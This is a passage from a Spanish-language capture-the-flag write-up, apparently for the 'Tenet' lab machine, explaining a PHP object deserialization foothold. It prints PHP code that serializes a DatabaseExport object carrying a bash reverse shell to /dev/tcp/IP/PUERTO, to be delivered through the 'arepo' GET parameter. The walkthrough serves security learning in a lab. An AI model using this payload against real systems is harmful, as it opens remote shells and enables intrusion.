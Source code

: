 uhmm la parte interesante esta aqui : 

![](/assets/img/Linux/Tenet/php_des.png)



Se espera un entrada GET de `arepo` luego se busca esto ---> `unserialize($input)` , so, intentaremos explotar esa parte con ``PHP Object Deserialization`` (recomiendo el video de Ippsec sobre **PHP deserialization** ), asi que basicamente es aprovecharse de la clase `DatabaseExport` , espesificar un archivo *php* (que sera nuestro reverse shell) para pasarlo via GET.

Antes de continuar, intentemos ejecutar el script:

![](/assets/img/Linux/Tenet/ejecutar_script.png)

# PHP Deserialization - Foothold

Lo siguiente puede ser modificar el script para subir el file y obtener unr response del mismo o usar directamente *php -a* 

```php
class DatabaseExport {
  public $user_file = 'archivo.php';
  public $data = '<?php exec("/bin/bash -c \'bash -i > /dev/tcp/IP/PUERTO 0>&1\'"); ?>';
  }

print urlencode(serialize(new DatabaseExport));
```



![](/assets/img/Linux/Tenet/seria.png)

Pasamos el payload via curl o directamente en el navegador:

![](/assets/img/Linux/Tenet/web.png)
